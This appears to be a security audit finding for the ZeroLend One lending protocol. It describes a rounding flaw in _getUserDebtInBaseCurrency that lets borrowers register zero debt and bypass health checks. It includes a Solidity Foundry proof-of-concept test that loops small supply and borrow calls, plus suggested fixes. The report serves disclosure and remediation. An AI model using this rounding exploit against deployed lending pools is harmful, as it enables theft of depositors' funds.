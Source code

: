 Dancing Cherry Yak

Medium

# Precision Exploit in _getUserDebtInBaseCurrency Function Allows unhealthy Loans

### Summary

The `_getUserDebtInBaseCurrency` function allows users to exploit precision limitations when handling low-value tokens. By depositing a small amount of collateral and repeatedly borrowing smaller amounts of `loanToken`, the protocol incorrectly registers the debt as zero due to rounding errors. This bypasses health checks, enabling borrowers to accumulate debt without proper accounting, leading to undercollateralized loans and potential losses for the protocol.

### Root Cause

The root cause of the issue is any factors that can cause the calculation of the `_getUserDebtInBaseCurrency` function to result in zero. 

https://github.com/sherlock-audit/2024-06-new-scope/blob/a150815e6e6cae8b14a4ca5bb05d545f6a5e07ae/zerolend-one/contracts/core/pool/logic/GenericLogic.sol#L184

https://github.com/sherlock-audit/2024-06-new-scope/blob/a150815e6e6cae8b14a4ca5bb05d545f6a5e07ae/zerolend-one/contracts/core/pool/logic/GenericLogic.sol#L207

This happens even when `debtShares` is not zero, leading to incorrect debt assessment and allowing users to bypass health checks.


### Impact

* Losses for Pool : Since the protocol does not accurately track the user’s debt, it may face financial losses due to unpaid or underreported debt. 

* Health Check Bypass: Users can pass health checks and continue borrowing or maintaining positions that should be flagged as unsafe. 
* Also note that these small positions are not liquidable.

### PoC

```solidity
// run in test/forge/core/vaults/ERC4626Test.sol
 function mintShares(uint256 assets, address depositor) public returns(uint256 shares) {
    loanToken.mint(depositor, assets); 
    vm.startPrank(depositor);
    loanToken.approve(address(vault), assets);
    shares = vault.deposit(assets, depositor);
    vm.stopPrank();
  }


  function testBorrowDebtValueZero() public {

    address alice = vm.addr(100);
    mintShares(1e18, alice);

    address bob = vm.addr(101);
    mintShares(1e18, bob);

    
    address borrower = vm.addr(103);
    collateralToken.mint(borrower, 1e10 * 20);

    uint256 i = 0;
    while (i<20) {
      vm.startPrank(borrower);
      collateralToken.approve(address(allMarkets[0]), 1e10);
      // Attacker deposit min amount of collateral for his value to not be round to zero
      allMarkets[0].supplySimple(address(collateralToken), borrower, 1e10, i);
      // Attacker borrow max amount of loanToken
      allMarkets[0].borrowSimple(address(loanToken), borrower, 0.9999999999e10, i);
      vm.stopPrank();
      i++;
      // The attacker can repeat the process n times to increase his debt
    }
   
    console.log("borrower debt      ", loanToken.balanceOf(borrower));
    //  the two assets have the same price at oracle
    // so attacker were able to borrow 2e11 loanToken
    // depositing 2e11 collateralToken in the vault
    // with an ltv of 75
    assertEq(2e11 - loanToken.balanceOf(borrower), 20);

  }
```

### Mitigation

* We can add a check in `GenericLogic::calculateUserAccountData` to revert when value return by `_getUserDebtInBaseCurrency` is zero while `balance.debtShares !=0 `.

* Ensure that reserves and their respective oracles use the same decimal precision whenever possible to avoid precision issues in calculations.